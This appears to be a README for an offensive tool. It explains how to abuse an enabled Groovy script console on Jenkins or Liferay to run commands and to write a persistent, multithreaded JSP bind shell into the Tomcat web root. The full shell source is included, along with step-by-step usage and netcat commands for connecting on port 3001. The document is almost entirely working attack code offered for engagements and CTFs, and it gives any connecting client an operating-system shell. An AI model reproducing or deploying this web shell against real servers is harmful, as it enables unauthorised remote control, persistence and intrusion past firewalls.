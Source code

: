 # Bind Shell From Groovy Script Console
a script to write JSP webshells and execute them via the web root. useful for engagements with jenkins\liferay where you don't have the ability to abuse legitimate upload functionalities in platforms such as liferay/jenkins but  script console is enabled and the network firewall is blocking outgoing traffic.
Built for Offensive security tasks and CTF junkies who hate fragile shells.

#### Info
This Groovy script generates a JSP bind shell that supports multithreading.
If you hit CTRL+C or lose the connection, you can simply reconnect.
By default, it listens on port 3001, but you can change that anytime.

#### How to use
0. browse to the groovy script console GUI
2. Figure out where the web root is (tomcat root), this can be performed with `pwd`,`ls`,`dir`

here are some known remote  command executin scripts:
1. POC for simple commands: `pwd`,`ls`,`dir` `cd` ( use to figure out where the web root is)
```
def cmd="YOURCOMMAND-dir"
def sout = new StringBuilder(), serr = new StringBuilder()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

this is where your bind shell will live, if you execute it correctly then you will be able to aceess the shell at `site\threaded.jsp`

paste the following into your groovy console:
```
new File("<PATHTOTOMCAT>/tomcat/ROOT/threaded.jsp").text ='''<%@ page import="java.io.*" %>
<%@ page import="java.net.*" %>
<%!
    // Static block to ensure the listener thread is only started once.
    static {
        new Thread(new Runnable() {
            public void run() {
                // --- CONFIGURATION ---
                int port = 3001; // The port to listen on.
                // -------------------

                try {
                    ServerSocket serverSocket = new ServerSocket(port);
                    // This is the key change: an infinite loop to accept multiple clients.
                    while (true) {
                        // Wait for a client to connect. This call blocks until a connection is made.
                        Socket clientSocket = serverSocket.accept();
                        
                        // When a client connects, create a NEW THREAD to handle them.
                        // This allows the main loop to go back and wait for the next client.
                        new Thread(new ClientHandler(clientSocket)).start();
                    }
                } catch (Exception e) {
                    // Fail silently in the background.
                }
            }
        }).start();
    }

    // This class handles the logic for a single connected client.
    static class ClientHandler implements Runnable {
        private final Socket clientSocket;

        ClientHandler(Socket socket) {
            this.clientSocket = socket;
        }

        public void run() {
            try {
                String shell = System.getProperty("os.name").toLowerCase().startsWith("windows") ? "cmd.exe" : "/bin/sh";
                Process process = Runtime.getRuntime().exec(shell);

                // Redirect I/O for this specific client
                new Thread(new StreamRedirector(process.getInputStream(), clientSocket.getOutputStream())).start();
                new Thread(new StreamRedirector(process.getErrorStream(), clientSocket.getOutputStream())).start();
                new Thread(new StreamRedirector(clientSocket.getInputStream(), process.getOutputStream())).start();

                process.waitFor();
            } catch (Exception e) {
                // An exception here usually means the client disconnected.
            } finally {
                try { clientSocket.close(); } catch (IOException e) {}
            }
        }
    }

    // Helper class to redirect streams. No changes needed here.
    static class StreamRedirector implements Runnable {
        private final InputStream in;
        private final OutputStream out;
        StreamRedirector(InputStream in, OutputStream out) { this.in = in; this.out = out; }
        public void run() {
            try {
                byte[] buffer = new byte[4096];
                int bytesRead;
                while ((bytesRead = in.read(buffer)) != -1) {
                    out.write(buffer, 0, bytesRead);
                    out.flush();
                }
            } catch (IOException e) {}
        }
    }
%>
<html>
<body>
    <h1>Persistent Bind Shell Initialized</h1>
    <p>A persistent listener should now be active on port <strong>3001</strong>.</p>
</body>
</html>
'''
```
3. edit the location to save the shell to the correct webroot location
4. hit save and browse to your webshell so it activates `http://site/threaded.jsp`
5. connect to the bind shell via netcat:
```
 example 1:
rlwrap -cAr nc -nv HOST-IP 3001

example 2:
rlwrap -cAr nc -nv 172.16.30.10  3001
```
